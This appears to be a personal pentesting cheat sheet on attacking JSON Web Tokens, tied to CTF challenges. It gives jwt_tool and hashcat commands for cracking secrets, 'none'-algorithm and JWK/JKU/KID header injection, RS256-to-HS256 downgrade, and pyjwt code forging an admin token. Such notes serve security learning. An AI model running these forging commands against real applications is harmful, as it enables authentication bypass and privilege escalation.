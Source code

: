 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
[![json_web_token](../../../../_badges/poat/json_web_token.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).
</div></div>

<hr class="sep-both">

## Common JWT Attacks

<div class="row row-cols-lg-2"><div>

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(5.4k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/tools/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```

You can also use [jwt.io](https://jwt.io/).

<br>

#### Secret Key Brute Forcing

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -C -d ./jwt.secrets.list # crack key
```

```ps
$ hashcat -m 16500 hash ./jwt.secrets.list
```

<br>

#### JWT Header Injection — None Algorithm

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

We may be able to disable the tampering check by setting the signature algorithm to 'none.'

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

📚 It also possible for the signature to not be checked at all by the server after issuing a JWT even if there is an algorithm.

<br>

#### JWT Header Injection — JWK

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)

An application may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -T -X i     # attack 'jwk header injection'
$ jwt_tool 'jwt' -T -X i -hc kid -hv jwt_tool     # with kid
```
</div><div>

#### JWT Header Injection — JKU

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)

The `jku` header contains a URL or a filename used to fetch a key.

* When a asymmetric algorithm such as RS is used:

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -X s -ju "URL/jwks.json" -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

<br>

#### JWT Header Injection — KID

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)
[![jwt_unsecure_file_signature](../../../../_badges/rootme/web_server/jwt_unsecure_file_signature.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-File-Signature)

The kid header may be present in two scenarios. The first one is to define which key file contains the secret. The second usage is to determines which of the keys in the `jku` we should use.

```shell!
$ # The file "/dev/null" is empty so -p is ""
$ jwt_tool "" -I -hc kid -hv "/dev/null" -S hs512 -p "" -pc claim -pv value
```

➡️ Refer to [Path Traversal](/cybersecurity/red-team/s3.exploitation/vulns/web/path_traversal.md) and my [cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md) for more notes.

<br>

#### JWT Header Injection — RS256 to HS256

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## Python JWT

<div class="row row-cols-lg-2"><div>

The [pyjwt](https://github.com/jpadilla/pyjwt) <small>(5.1k ⭐)</small> library can be used to manipulate JWT in Python. There are two unmaintained alternatives which are:

* [python-jwt by GehirnInc](https://github.com/GehirnInc/python-jwt) <small>(0.1k ⭐, 2022 🪦)</small>
* [python-jwt by D. Halls](https://github.com/davedoesdev/python-jwt) <small>(0.2k ⭐, 2023 🪦)</small> — has two CVEs

```py
headers = {
    'kid': '/dev/null'
}
payload = {
    'role': 'admin',
    'iat': int(datetime.datetime.now(datetime.UTC).timestamp())
}
```
</div><div>

To install it:

```shell!
$ pip install pyjwt
```

To generate a JWT:

```py
import jwt
token = jwt.encode(payload, '', algorithm='HS512', headers=headers)
```

To decode a JWT:

```py
import jwt
payload = jwt.decode(token, '', algorithms=['HS512'])
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* [jwtcrack/jwt2john](https://github.com/Sjord/jwtcrack)
</div><div>
</div></div>
